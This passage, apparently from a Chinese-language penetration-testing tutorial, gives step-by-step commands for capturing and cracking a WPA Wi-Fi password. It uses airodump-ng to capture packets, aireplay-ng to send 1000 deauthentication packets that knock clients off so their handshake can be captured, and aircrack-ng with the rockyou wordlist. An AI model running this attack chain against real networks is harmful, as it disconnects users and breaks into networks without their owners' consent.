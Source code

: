 1.  现在我们已经有了可用无线网络的列表和我们的网络 BSSID 和 ESSID，我们可以开始捕获专门针对该信道的数据包：

```
      airodump-ng --bssid xx:xx:xx:xx:xx:xx -c X --write WPACrack        wlan0mon

```

输出将如下截图所示：

![如何做...](img/image_10_019.jpg)

1.  现在我们将不得不对现有客户端进行去认证，以捕获他们对无线路由器的握手请求，因为它将包含认证凭据。只有在去认证期间，我们才能成功捕获加密密码：

```
      aireplay-ng --deauth 1000 -a xx:xx:xx:xx:xx:xx wlan0mon

```

输出将如下截图所示：

![如何做...](img/image_10_020.jpg)

1.  现在经过认证的用户将被迫重新认证近 1000 次，之后，如果我们在右上角查看我们的`airodump-ng`，我们将找到 WPA 握手，这意味着我们成功捕获了流量。我们现在可以通过按*Ctrl* + *C*来终止转储。认证数据包越多，我们破解密码的机会就越大。

1.  现在我们将开始对转储文件进行 WPA 破解。我们需要注意文件名以多个扩展名保存，并根据迭代号添加了`-01`；`rockyou.txt`是一个包含常用密码和字母数字组合的字典，将用于对捕获文件进行猜测密码：

```
      aircrack-ng WPACrack-01.cap -w /usr/share/wordlists/rockyou.txt

```

输出将如下截图所示：
